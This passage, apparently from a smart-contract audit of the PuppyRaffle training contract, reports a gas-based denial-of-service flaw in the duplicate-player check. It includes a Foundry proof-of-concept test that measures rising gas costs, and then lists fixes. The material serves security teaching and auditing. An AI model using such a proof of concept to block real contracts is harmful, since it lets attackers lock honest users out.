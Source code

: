 If we have 2 sets of 300 players enter, the gas costs will be as such:

- 1st 300 players: ~42391261 gas
- 2nd 300 players: ~148866771 gas

This is more than 3x more expensive for the second 300 players.

- *PoC*
    
    Place the following test into `PuppyRaffleTest.t.sol` 
    
    ```jsx
    function testDenialOfService() public {
        vm.txGasPrice(1);
        
        // Let's enter 300 players
        uint256 playerLength = 300;
    
        address[] memory players = new address[](playerLength);
        for (uint256 i = 0; i < playerLength; i++) {
            players[i] = address(i);
        }
    
    		// Checking how much gas it costs
        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playerLength}(players);
        uint256 gasEnd = gasleft();
    
        uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
        console.log("Gas Cost if the first 300 players: %s", gasUsedFirst);
    
        address[] memory playersSecond = new address[](playerLength);
        for (uint256 i = 0; i < playerLength; i++) {
            playersSecond[i] = address(i + playerLength);
        }
    
        uint256 gasStartSecond = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playerLength}(
            playersSecond
        );
        uint256 gasEndSecond = gasleft();
    
        uint256 gasUsedSecond = (gasStartSecond - gasEndSecond) * tx.gasprice;
        console.log("Gas Cost if the second 300 players: %s", gasUsedSecond);
    
        assert(gasUsedFirst < gasUsedSecond);
    }
    ```
    

**Recommended Mitigation:**

There are a few recommendations. 

1. Consider allowing duplicates. Users can make new wallet addressses anyways, so a duplicate check doesn’t prevent the same person from entering multiple times, only the same wallet address.
2. Consider using a mapping to check for duplicates. This would allow constant time looup of wether a user has already entered.
3. Alternatively, you could use OpenZeppelin’s `EnumerableSet` library.

---